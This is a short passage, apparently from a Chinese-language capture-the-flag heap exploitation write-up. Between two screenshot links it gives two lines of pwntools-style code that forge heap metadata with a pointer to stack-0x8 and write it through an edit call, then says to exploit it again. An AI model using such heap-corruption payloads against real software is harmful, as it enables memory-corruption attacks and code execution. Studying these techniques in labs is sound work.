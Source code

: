 [![](assets/1701606615-ead68497756ce1f9c8c44c2fff49a438.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213840-49b2f36c-83bc-1.png)

```plain
pl=p64(0x1)+p64(0)*14+p64(0x0007000000000000)+p64(0)*0x3f+p64(stack-0x8)
edit(3,0x408,pl)
```

[![](assets/1701606615-a6de057e50724b828edd4cdd416906c9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213850-4f9e67c0-83bc-1.png)  
然后直接再利用
